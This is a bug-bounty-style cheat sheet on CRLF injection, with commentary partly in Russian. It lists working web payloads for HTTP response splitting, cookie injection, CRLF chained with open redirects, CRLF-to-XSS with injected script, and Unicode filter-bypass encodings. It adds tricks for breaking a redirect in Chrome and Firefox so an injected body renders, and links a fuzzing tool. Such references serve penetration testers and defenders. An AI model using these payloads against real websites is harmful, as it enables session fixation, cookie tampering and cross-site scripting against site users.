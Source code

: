 # CRLF

## Basic

### Basic CheatSheet

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue
• https://subdomain.redacted.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2                    
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2                       
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```

### CRLF in Location

Когда у тебя есть CRLF в заголовке Location при редиректе, ты можешь попробовать превратить CRLF в полноценную XSS.\
Браузеры не рендерят тело в ответе, где присутствует перенаправление. Однако, редирект можно прервать и тогда тело отобразится. Как завещал BlackFan ([https://blog.blackfan.ru/2017/09/devtwittercom-xss.html](https://blog.blackfan.ru/2017/09/devtwittercom-xss.html)):\
&#x20;_Для браузера Chrome необходимо, чтобы сервер вернул пустой заголовок Location._ Для FF чуть проще, нужно контролировать порт домена, куда происходит редирект, указав unsafe port, например 1 или 22.

### Если надо сделать запрос до каких-то действий

Можно использовать img тег

```markup
<img src="https://server.net/?test=%0D%0ASet-Cookie:%20key=value" onerror="...">
```

## Tools

CRLF Fuzz (Go): [https://github.com/dwisiswant0/crlfuzz](https://github.com/dwisiswant0/crlfuzz)

